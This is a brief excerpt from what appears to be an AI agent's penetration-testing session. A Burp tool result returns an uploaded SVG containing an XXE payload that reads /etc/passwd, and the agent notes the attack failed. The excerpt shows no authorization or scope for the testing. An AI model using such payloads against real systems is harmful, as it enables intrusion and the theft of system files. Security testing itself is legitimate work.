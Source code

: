 
**User:**

[use_mcp_tool for 'burpmcp'] Result:
HTTP/1.1 200 OK
Date: Wed, 07 May 2025 23:40:43 GMT
Server: Apache/2.4.55 (Ubuntu)
Last-Modified: Wed, 07 May 2025 23:40:38 GMT
ETag: "15f-6349442abb608"
Accept-Ranges: bytes
Content-Length: 351
Connection: close
Content-Type: image/svg+xml

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd" [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<svg width="200" height="200" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
<text x="0" y="20" font-size="20">&xxe;</text>
</svg>
<environment_details>
# VSCode Visible Files
(No visible files)

# VSCode Open Tabs
(No open tabs)

# Current Time
5/7/2025, 12:40:45 PM (America/New_York, UTC-4:00)

# Context Window Usage
43,171 / 200K tokens used (22%)

# Current Mode
ACT MODE
</environment_details>

---

**Assistant:**

<thinking>
The SVG file with the XXE payload was uploaded and is accessible, but it seems that the XXE attack didn't work as expected. The server returned the SVG file as-is, without resolving the external entity. This suggests that the XML parser used by the server might have XXE protection enabled.
